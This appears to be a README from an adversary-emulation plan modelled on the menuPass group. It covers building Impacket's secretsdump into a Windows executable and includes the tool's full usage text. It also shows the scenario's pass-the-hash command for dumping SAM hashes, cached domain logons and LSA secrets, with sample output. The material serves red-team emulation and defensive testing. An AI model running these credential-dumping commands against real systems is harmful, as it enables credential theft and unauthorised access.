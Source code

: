 # Impacket for secretsdump.exe

This is a slightly modified version of Fortra's [Impacket](https://github.com/fortra/impacket/tree/master) at [commit 2de29184dc93247829099fcbc52ff256817c6a94](https://github.com/fortra/impacket/tree/2de29184dc93247829099fcbc52ff256817c6a94).
- The original license can be found [here](https://github.com/fortra/impacket/blob/master/LICENSE) and on the [original Github](https://github.com/fortra/impacket/tree/master).
- The original README can be found [here](https://github.com/fortra/impacket/blob/master/README.md) and on the [original Github](https://github.com/fortra/impacket/tree/master).

The following modifications have been made to the library for compatability in building secretsdump.exe via PyInstaller:
* Renamed `impacket\http.py` to `impacket\impacket_http.py`
* Edited `impacket\dcerpc\v5\rpch.py` import of `impacket.http` to `impacket.impacket_http`

## Usage

Command line arguments and usage of the compiled secretsdump.exe is the same as its Python counterpart.

```cmd
secretsdump.exe -h
```

```cmd
Impacket v0.11.0 - Copyright 2023 Fortra

usage: secretsdump.exe [-h] [-ts] [-debug] [-system SYSTEM] [-bootkey BOOTKEY] [-security SECURITY] [-sam SAM] [-ntds NTDS] [-resumefile RESUMEFILE] [-outputfile OUTPUTFILE] [-use-vss] [-rodcNo RODCNO]
                       [-rodcKey RODCKEY] [-use-keylist] [-exec-method [{smbexec,wmiexec,mmcexec}]] [-just-dc-user USERNAME] [-ldapfilter LDAPFILTER] [-just-dc] [-just-dc-ntlm] [-pwd-last-set] [-user-status]
                       [-history] [-hashes LMHASH:NTHASH] [-no-pass] [-k] [-aesKey hex key] [-keytab KEYTAB] [-dc-ip ip address] [-target-ip ip address]
                       target

Performs various techniques to dump secrets from the remote machine without executing any agent there.

positional arguments:
  target                [[domain/]username[:password]@]<targetName or address> or LOCAL (if you want to parse local files)

options:
  -h, --help            show this help message and exit
  -ts                   Adds timestamp to every logging output
  -debug                Turn DEBUG output ON
  -system SYSTEM        SYSTEM hive to parse
  -bootkey BOOTKEY      bootkey for SYSTEM hive
  -security SECURITY    SECURITY hive to parse
  -sam SAM              SAM hive to parse
  -ntds NTDS            NTDS.DIT file to parse
  -resumefile RESUMEFILE
                        resume file name to resume NTDS.DIT session dump (only available to DRSUAPI approach). This file will also be used to keep updating the session's state
  -outputfile OUTPUTFILE
                        base output filename. Extensions will be added for sam, secrets, cached and ntds
  -use-vss              Use the VSS method instead of default DRSUAPI
  -rodcNo RODCNO        Number of the RODC krbtgt account (only avaiable for Kerb-Key-List approach)
  -rodcKey RODCKEY      AES key of the Read Only Domain Controller (only avaiable for Kerb-Key-List approach)
  -use-keylist          Use the Kerb-Key-List method instead of default DRSUAPI
  -exec-method [{smbexec,wmiexec,mmcexec}]
                        Remote exec method to use at target (only when using -use-vss). Default: smbexec

display options:
  -just-dc-user USERNAME
                        Extract only NTDS.DIT data for the user specified. Only available for DRSUAPI approach. Implies also -just-dc switch
  -ldapfilter LDAPFILTER
                        Extract only NTDS.DIT data for specific users based on an LDAP filter. Only available for DRSUAPI approach. Implies also -just-dc switch
  -just-dc              Extract only NTDS.DIT data (NTLM hashes and Kerberos keys)
  -just-dc-ntlm         Extract only NTDS.DIT data (NTLM hashes only)
  -pwd-last-set         Shows pwdLastSet attribute for each NTDS.DIT account. Doesn't apply to -outputfile data
  -user-status          Display whether or not the user is disabled
  -history              Dump password history, and LSA secrets OldVal

authentication:
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH
  -no-pass              don't ask for password (useful for -k)
  -k                    Use Kerberos authentication. Grabs credentials from ccache file (KRB5CCNAME) based on target parameters. If valid credentials cannot be found, it will use the ones specified in the command
                        line
  -aesKey hex key       AES key to use for Kerberos Authentication (128 or 256 bits)
  -keytab KEYTAB        Read keys for SPN from keytab file

connection:
  -dc-ip ip address     IP Address of the domain controller. If ommited it use the domain part (FQDN) specified in the target parameter
  -target-ip ip address
                        IP Address of the target machine. If omitted it will use whatever was specified as target. This is useful when target is the NetBIOS name and you cannot resolve it
```

In the menuPass scenario, secretsdump.exe is ingressed and executed by SodaMaster. The following is the executed command line arguments to dump local SAM hashes, cached domain login information, and LSA secrets: 

```cmd
secretsdump.exe [domain]/[admin username]@127.0.0.1 -hashes :[admin NTLM]
```

```cmd
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Service RemoteRegistry is in stopped state
[*] Service RemoteRegistry is disabled, enabling it
[*] Starting service RemoteRegistry
[*] Target system bootKey: ...
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
...
[*] Dumping cached domain logon information (domain/username:hash)
...
[*] Dumping LSA Secrets
[*] $MACHINE.ACC
...
[*] DefaultPassword
...
[*] DPAPI_SYSTEM
...
[*] NL$KM
...
[*] Cleaning up...
[*] Stopping service RemoteRegistry
[*] Restoring the disabled state for service RemoteRegistry
```

## Build Instructions

### Build Environment Setup

The following steps will walk through setup of the build environment.

1. Open a Command Prompt with administrative privileges to install python (minimum Python 3.12)

    ```cmd
    choco install python
    ```

1. From menu_pass/Resources/impacket, create a Python virtual environment

    ```cmd
    python -m venv impacket-venv
    ```

1. Activate the virtual environment

    ```cmd
    impacket-venv\Scripts\activate.bat
    ```

1. Install pip (minimum Pip 23.2.1) then use pip to install pyinstaller and impacket

    ```cmd
    python -m pip install -U pip
    pip install pyinstaller
    pip install impacket
    ```

1. Manually edit pip installed impacket library. This deconflicts with Python's built in HTTP package
    1. Rename `impacket-venv\Lib\site-packages\impacket\http.py` to `impacket-venv\Lib\site-packages\impacket\impacket_http.py`
    1. Edit `impacket-venv\Lib\site-packages\impacket\dcerpc\v5\rpch.py` import of `impacket.http` to `impacket.impacket_http`

1. Add `C:\Windows\system32\downlevel` to `PATH` to ensure api-ms-win-crt...dll dependencies can be found

    ```cmd
    set PATH=%PATH%;C:\Windows\System32\downlevel;
    ```

### PyInstaller Build Command

1. Build secretsdump.exe using pyinstaller. This will create a `build` and a `dist` directory in the current working directory.
    ```cmd
    pyinstaller examples\secretsdump.py --onefile --path impacket
    ```

1. Test execution of secretsdump.exe

    ```
    cd dist
    secretsdump.exe -h
    ```

## CTI Reporting
[PwC - Operation Cloud Hopper: Technical Annex](https://www.pwc.co.uk/cyber-security/pdf/pwc-uk-operation-cloud-hopper-technical-annex-april-2017.pdf#page=28)
